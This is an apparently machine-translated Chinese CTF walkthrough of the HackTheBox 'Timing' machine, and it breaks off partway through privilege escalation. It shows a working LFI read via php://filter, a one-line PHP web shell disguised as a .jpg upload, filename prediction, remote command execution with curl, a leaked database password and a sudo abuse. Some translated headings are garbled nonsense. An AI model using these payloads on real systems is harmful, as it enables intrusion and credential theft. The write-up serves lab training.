# 来自 HackTheBox 的时序—详细演练

> 原文：<https://infosecwriteups.com/timing-from-hackthebox-detailed-walkthrough-7671466227fd?source=collection_archive---------1----------------------->

向您展示完成盒子所需的所有工具和技术。

[定时](https://www.hackthebox.com/home/machines/profile/421)是由 [irogir](https://www.hackthebox.com/home/users/profile/476556) 在 [HackTheBox](https://www.hackthebox.com/home) 上制作的简易水平仪。它主要关注基于 web 和 shell 的应用程序漏洞。

# 机器信息



来自黑客盒子的计时

我们的起点是网站上端口 80 上的一个登录页面，我们通过用 wfuzz 查找文件和文件夹找到了一条进入该页面的途径。使用一个易受攻击的 php 页面，我们会泄露凭证，从而获得访问权限。进一步的枚举和代码审查允许我们将我们在 web 应用程序中的角色升级为管理员。在那里，我们有一种方法来上传包含代码执行的恶意文档。我们找到了一种方法来获得它的唯一文件名，从而允许我们远程执行机器上的命令。我们过滤一个备份，并在其中找到凭证以获取 ssh 作为用户。升级到 root 是通过我们在包装盒上找到的一个易受攻击的应用程序，我们利用它对 wget 的不安全使用来获得 root 外壳。

# 初步侦察

像往常一样，让我们从 Nmap 开始:


盒子的 Nmap 扫描

只打开了两个端口，让我们看看端口 80 上的 Apache:



# Gobuster 枚举

我们有一个登录框，但没有别的。我尝试了一些显而易见的凭证，但没有得到任何地方，所以让我们试试 gobuster:



gobuster 扫描子文件夹

没有太多线索，所以我试着寻找带有 php 扩展名的文件，发现了这个:



gobuster 扫描 php 文件

# Wfuzz

有趣的是，image.php 的文件没有像其他文件一样重定向到 login.php。我试着弄模糊，花了我不少时间，但最终我得到了这个:



模糊参数

# 转储密码

通过使用 img 参数和 fuzzing，我得到了一些 25 个字符的响应。这告诉我们 web 服务器正在做出响应。让我们尝试获取 passwd 文件:



尝试用 curl 下载密码文件

好了，我们有进展了。接下来，我们需要尝试绕过那个过滤器。我用了[这个](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)，这是我在赏金猎人盒子[上用的东西](https://pencer.io/ctf/ctf-htb-bountyhunter/#base64-encoded-payload):



用 curl 抓取密码文件

这是可行的，响应是 base64 编码的，因此我们可以解码并使用 grep 来给出可以登录的帐户:



使用 curl 和 base64 解码抓取 passwd 文件

# 简单的 WebApp 登录

我们有一个叫 aaron 的用户。回到我们之前看到的初始登录框，现在使用用户名登录很简单:



简单的 WebApp 登录

我们在这里结束:



以用户 2 身份登录

我们不确定此时成为用户 2 的意义何在，而且一旦登录，您就不能做任何其他事情了。回到我们的 gobuster 输出，我得到了 upload.php 文件:

```
┌──(root💀kali)-[~]
└─# curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=upload.php' | base64 -d
```

# 代码审查

浏览代码，很容易看出它做了什么。它获取用户上传的文件，检查它是否有. jpg 扩展名，并将其名称存储在$file_name 中。然后，它通过获取当前时间的 md5 散列值并将其与文件名相结合来创建一个唯一的散列值。然后，它将文件存储在/images/uploads 中。脚本中有一个需要理解的地方，否则你将会试图确定已经创建的文件名。

查看文件的第一部分:

```
<?php
include("admin_auth_check.php");
$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
```

请注意，有一个名为$file_hash 的变量是用 uniqid()设置的值创建的。这篇文章解释了这个函数是做什么的，但本质上它就像 time()，但以微秒为单位，所以是一个更大的值。重要的一点是:

```
md5('$file_hash' . time())
```

在 PHP 中，单引号和双引号对字符串的作用不同。见[这篇](https://www.geeksforgeeks.org/what-is-the-difference-between-single-quoted-and-double-quoted-strings-in-php/)文章，但是基本上他$file_hash 变量的值是从来不用的。

我们还看到这个文件中包含另一个名为 admin_auth_check.php 的文件，让我们来看看:

```
┌──(root💀kali)-[~]
└─# curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=admin_auth_check.php' | base64 -d

<?php
include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}
?>
```

我们可以看到该文件正在检查会话角色的值。如果它不等于 1，那么你没有访问面板的权限。我们还不知道那是什么意思！

# WebApp 管理员访问

回到我们的 web 浏览器，我们已经有一个认证为 aaron 的会话。如果您点击顶部的“编辑个人资料”链接，您会看到:



编辑用户的个人资料

该打嗝了，看看背景中发生了什么。一旦你设置了 Burp 拦截请求并且你的浏览器设置了使用它，点击网页上的蓝色更新按钮。我们拦截了邮件:



打嗝拦截用户

在末尾添加我们的新角色:



打嗝改变用户的角色

转发到服务器，然后切换回浏览器:



个人资料已更新

我们看到我们的个人资料已更新，现在刷新您的浏览器以查看我们有一个名为管理面板的新选项，单击该选项可进入此处:



访问管理面板

# Web 外壳

我们已经找到了图片上传区域，它使用了我们之前看过的 PHP 文件。可以肯定这将是我们获得远程代码执行的方法。让我们从一个简单的 web shell 开始。我们从代码审查中知道，有文件扩展名检查，但没有文件内容检查。我们可以像这样轻松地绕过检查:

```
┌──(root💀kali)-[~]
└─# cat pencer.jpg
<?php system($_GET[cmd]);?>
```

我们以前已经在尼尼微和 T2 锻炉中使用过几次了。然而，这里稍微复杂一点，因为生成的文件名前面还有一个当前时间的 md5 散列。

我们可以创建自己简单的文件名生成器来帮助您。这就是 PHP 文件正在做的事情:

```
$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
```

让我们测试一下我们自己的版本:

```
┌──(root💀kali)-[~/htb/timing]
└─# date
Wed 22 Dec 17:13:27 GMT 2021
```

使用当前时间:

```
┌──(root💀kali)-[~/htb/timing]
└─# php -a
Interactive mode enabled
php > echo (md5('$file_hash' . strtotime('Wed 22 Dec 17:13:27 GMT 2021')) . '_pencer.jpg');
01c656c2e2adb93593117cb1b3d12808_pencer.jpg
```

因此，使用交互式 php 模式，我们可以从我们检查过的代码中提取一行，并用我的 Kali box 上的当前时间替换 time()。然后添加我们创建的将用于命令执行的文件的名称。生成的文件名是我们上传后需要使用的。

让我们来真的吧。返回上传表单并选择我们的 web shell:


上传图像

确保您的浏览器设置为使用 Burp 作为代理，并且该 Burp 设置为拦截。点击上传图像按钮，然后切换到打嗝，看看它被拦截:



打嗝拦截图像上传

我们可以在底部看到我们的代码是完整的。右键单击并选择发送到中继器，然后切换到中继器选项卡并单击发送:



打嗝重复显示文件上传的日期和时间

我们在右侧看到文件已上传，现在复制并记下服务器响应上的日期和时间:

```
Wed, 22 Dec 2021 17:21:43 GMT
```

我们像以前一样在 PHP 中使用它:

```
┌──(root💀kali)-[~/htb/timing]
└─# php -a
Interactive mode enabled
php > echo (md5('$file_hash' . strtotime('Wed, 22 Dec 2021 17:21:43 GMT')) . '_pencer.jpg');
e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg
```

# 远程代码执行

我们现在有了可以使用 curl 远程调用的文件名。让我们用 whoami 来测试一下:

```
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=whoami'
www-data
```

那行得通。然而，我花了很长时间试图得到一个反向壳没有运气。回到枚举文件系统，最终我找到了这个:

```
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=ls+-lsa+/opt' 
total 624
616 -rw-r--r--  1 root root 627851 Jul 20 22:36 source-files-backup.zip
```

一个备份文件，我们一定要看看。首先将其复制到我们有权访问的上传文件夹:

```
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=cp+/opt/source-files-backup.zip+/var/www/html/images/uploads/'
```

现在我们可以下载了:



使用 curl 下载 backup.zip

# 备份文件探索

拉开拉链看看:



解压缩备份文件

浏览这些文件，我们在 db_conn.php 中发现了一些有趣的东西:

```
┌──(root💀kali)-[~/htb/timing/backup]
└─# cat db_conn.php                  
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

aaron 是否重复使用了 mysql 密码进行 ssh 访问:

```
┌──(root💀kali)-[~/htb/timing/extracted]
└─# ssh aaron@timing.htb
aaron@timing.htb's password: 
Permission denied, please try again.
```

好吧，那没用。但是，进一步查看备份文件，我们会发现有一个 Git 存储库。好像有点可疑！

# GitTools

让我们像在 [Devzat](https://www.hackthebox.com/home/machines/profile/398) 上一样使用 GitTools 并提取源文件。如果需要，请下载它们:

```
┌──(root💀kali)-[~/htb/devzat]
└─# git clone https://github.com/internetwache/GitTools.git
Cloning into 'GitTools'...
remote: Enumerating objects: 229, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 229 (delta 6), reused 7 (delta 2), pack-reused 209
Receiving objects: 100% (229/229), 52.92 KiB | 1.65 MiB/s, done.
Resolving deltas: 100% (85/85), done.
```

对备份文件夹使用提取程序脚本:


使用 GitTools 提取 git 档案

现在看看提取器文件:

```
┌──(root💀kali)-[~/htb/timing]
└─# ll extracted 
drwxr-xr-x 5 root root 4096 Dec 22 17:43 0-16de2698b5b122c93461298eab730d00273bd83e
drwxr-xr-x 5 root root 4096 Dec 22 17:43 1-e4e214696159a25c69812571c8214d2bf8736a3f
```

有两个提交。就像我们在 Devzat 上做的一样，我们可以使用 diff 作为一种简单的方法来查看提交之间发生了什么变化:


使用 diff 检查文件夹之间的更改

# 宋承宪饰演亚伦

唯一的变化是我们之前用 aaron 在 SSH 上尝试的 db_conn.php 文件中的密码。让我们试试这个:

```
┌──(root💀kali)-[~/htb/timing/extracted]
└─# ssh aaron@timing.htb
aaron@timing.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)

  System information as of Wed Dec 22 17:45:49 UTC 2021

Last login: Wed Dec 22 17:41:31 2021 from 10.10.14.124
aaron@timing:~$
```

好吧，我们知道这是可行的，不是吗！

# Sudo 权限

像往常一样，在使用 LinPEAS 之类的东西之前，检查几个明显的东西。在这里，我从 sudo 开始，这是正确的地方:

```
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```

# 易受攻击的 Java 应用程序

什么是 netutils:

```
aaron@timing:~$ file /usr/bin/netutils
/usr/bin/netutils: Bourne-Again shell script, ASCII text executable

aaron@timing:~$ cat /usr/bin/netutils
#! /bin/bash
java -jar /root/netutils.jar
```

这个 shell 脚本在根文件夹中运行一个 Java 应用程序，我们可以在没有密码的情况下以 root 身份运行它。听起来很有趣，让我们看看它有什么作用:

```
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >>
```

这个 util 有两个选项，FTP 或 HTTP，无论你选择哪个，然后要求一个文件。这可以远程托管，所以让我们先在 Kali 上启动一个 web 服务器:

```
┌──(root💀kali)-[~/htb/timing]
└─# python3 -m http.server 80
```

现在切换回盒子，试着从 Kali 那里获取一个文件:

```
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 0
Enter Url+File: 10.10.14.12/pencer.jpg
```

我试着抓取我们之前用 FTP 制作的假 jpg，但是什么也没发生。在 Kali 上检查我的网络服务器，没有连接尝试。我们试试 http:

```
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.14.12/pencer.jpg
Initializing download: http://10.10.14.12/pencer.jpg
File size: 28 bytes
Opening output file pencer.jpg
Server unsupported, starting from scratch with one connection.
Starting download
Downloaded 28 byte in 0 seconds. (0.27 KB/s)
```

这看起来更有希望。在 Kali 上检查我们的网络服务器，我看到一个来自盒子的连接，并且文件被取回。在本地查看，我看到该文件在那里，它由 root 所有。

# Pspy64

我们可以使用 wget 获取一个文件，所以我们可以假设这个 util 中有一个我们需要利用的漏洞。为了理解它是如何工作的，让我们使用 pspy64，就像我们在其他许多时候做的那样，最近是在 [Static](https://app.hackthebox.com/machines/355) 上。如果你还没有从[这里](https://github.com/DominicBreuker/pspy)抓取，我已经有了，所以只需要把它复制到我在 Kali 上运行的 web 服务器的路径上:

```
┌──(root💀kali)-[~]
└─# locate pspy64
/root/htb/static/pspy64

┌──(root💀kali)-[~]
└─# cd htb/timing

┌──(root💀kali)-[~/htb/timing]
└─# cp /root/htb/static/pspy64 .
```

现在回到盒子上，把 pspy64 拉过来，开始运转:

